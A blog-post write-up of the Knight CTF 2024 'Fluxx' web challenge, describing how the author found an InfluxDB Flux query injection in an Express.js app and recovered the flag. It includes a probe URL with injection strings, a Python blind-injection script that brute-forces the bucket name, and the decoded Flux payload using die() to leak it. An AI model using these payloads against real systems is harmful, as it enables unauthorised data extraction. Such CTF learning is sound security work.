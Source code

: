 ```yaml
---
layout: post
title: "InfluxDB NoSQL SQL injection | Fluxx web CTF challenge writeup | Knight CTF 2024"
author: "Colleirose"
permalink: /influxdb-injection-nosql-injection-knightctf-2024
date: 2024-01-23
---
```


<style>
    /* images are fairly large in this writeup specifically, but they aren't everywhere, so this change should be applied here only */
    img {
        width: 50%;
        height: 50%;
    }
</style>

This is the challenge:
<br/>
![challenge name and description](/assets/img/challenge fluxx.png)

Based on the X-Powered-By header being Express on all pages and receiving a <code>Cannot GET /(requested url)</code> on non-existent URLs (e.g. <a href="http://66.228.53.87:9001/a" rel="noopener">66.228.53.87:9001/a</a>), I can infer this is a <a href="https://expressjs.com/" rel="noopener">Express.js</a> server.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198507422340358154/image.png?ex=65bf2804&is=65acb304&hm=e6100f755e6fed1f1811b7c852c048c3745f18e73d8a522bebe57997bd84b337&"/>

One of our team member finds https://book.hacktricks.xyz/pentesting-web/nosql-injection then checks finds that visiting <code>http://66.228.53.87:9001/query?data='%20||%201==1//%20%20%20%20or%20%20%20%20'%20||%201==1%00%20%20%20%20%20or%20%20%20%20admin'%20||%20'a'=='a</code> creates an erorr

I search this error online and learn that it's an error related to <a href="https://github.com/influxdata/influxdb" rel="noopener">InfluxDB</a>, which I haven't heard of until this challenge.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198512198323011714/image.png?ex=65bf2c77&is=65acb777&hm=e54a3bc3373d4d041b72b951d42801b3487e256700888636c283a9552efe1ca5&"/>

This also matches up with the challenge name and description:
![challenge name and description](/assets/img/challenge fluxx.png)

Searching about SQL injection in InfluxDB, I find <a href="https://rafa.hashnode.dev/influxdb-nosql-injection" rel="noopener">https://rafa.hashnode.dev/influxdb-nosql-injection</a>.

After facing some errors, I go back to the article I was copying this code off of and fix my code.

But this is very inefficient to do manually. I find a script on <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql">book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql</a> that can automate this. It requires a bit of changes, but here's the working script, based on the Hacktricks resource:

```py
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://66.228.53.87:9001/query?data=%22)%20%7c%3e%20yield(name%3a%20%221337%22)%20%0d%0abuckets()%20%7c%3e%20filter(fn%3a%20(r)%20%3d%3e%20r.name%20%3d~%20%2f%5e" +flag+char+".*%2f%20and%20die(msg%3ar.name))%20%0d%0a%2f%2f")
        if (r.text != "[]"):
            flag += char
            print("[+] Flag: "+flag)
            break
```

The script then crashes with some error about the connection being aborted but tells me the correct string starts with K

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516018990022656/image.png?ex=65bf3006&is=65acbb06&hm=6daf3321672585f519bc72aad4c5c09a548adb8a33a7433c85a85912689047bf&"/>

So I went back to Burp Suite and tried it again with the K

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516141547597844/image.png?ex=65bf3023&is=65acbb23&hm=a47b3cc0a025b538b9d8c4066d7df9ea0cf41b2ae9d9e7e3470105ab595f66e3&"/>

This flag is correct when submitted:

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516330303860746/image.png?ex=65bf3050&is=65acbb50&hm=93434d1d3de29bb8e78eac99de0a0bfe0361b1ae9965f7a7a9f2da24f7bb74e4&"/>

This is the code with the URI parameters decoded. I don't fully understand what it does because I've never used NoSQL or InfluxDB before.

```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^K.*/ and die(msg:r.name)) 
//
```

I don't know what the first line does, but the second line calls a function to list buckets called <code>buckets()</code> and filters for buckets with a name that matches the regular expression <code>/^K.*/</code>. If it finds one, it dies with the bucket's name. The third line is a comment.

In retrospect, maybe <code>/^.*/</code> would've worked fine.